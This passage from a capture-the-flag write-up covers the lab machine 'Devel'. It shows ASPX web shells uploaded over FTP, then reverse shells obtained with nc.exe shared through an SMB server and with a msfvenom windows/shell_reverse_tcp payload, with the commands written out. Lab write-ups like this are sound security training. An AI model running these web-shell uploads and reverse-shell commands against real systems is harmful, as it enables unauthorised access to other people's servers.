 ```bash
locate shell.aspx
cp /usr/share/SecLists/Web-Shells/laudanum-1.0/aspx/shell.aspx reverse.aspx
ftp 10.129.52.204
  put reverse.aspx
  dir

locate *.aspx
cp /usr/share/webshells/aspx/cmdasp.aspx .
ftp 10.129.52.204
  put cmdasp.aspx

# http://10.129.52.204/cmdasp.aspx    # :)
  whoami          # iis apppool\web
  hostname        # devel
  ipconfig
```

<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/devel_writeup/Devel_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have an **RCE**, I test the connectivity with the target machine and now if I think about the many different options to access the machine, I have many tools to practice and test which ones work (**this in a lab environment and not in a real one**). A first option is to open a local server with `impacket-smbserver` and share the `nc.exe` binary, then I can access from the **Browser** with the **Web Shell** to access the shared resource and run it to send me a **Reverse Shell** (**it works**). Another way is to create a malicious file (**aspx** format) with `msfvenom` that is responsible for sending a Shell to port **443** that I will open with `nc`, I just upload the binary via **FTP** and access it from the browser and **again access the box**. The third method, in which I did <ins>not succeed</ins>, was to upload `nc.exe` on the server but if I try to run it through the **Web Shell** it generated an error.

```bash
sudo tcpdump -i tun0 icmp -n
#  ping -n 2 10.10.14.84   # :)

locate nc.exe | grep usr
cp /usr/share/SecLists/Web-Shells/FuzzDB/nc.exe .
sudo impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
#  \\10.10.14.84\smbFolder\nc.exe -e cmd 10.10.14.84 443       # :)

# or:
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.84 LPORT=443 -f aspx -o malicious.aspx
ftp 10.129.52.204
  put malicious.aspx
sudo rlwrap -cAr nc -nlvp 443

# http://10.129.52.204/malicious.aspx                           # :)

# or:
```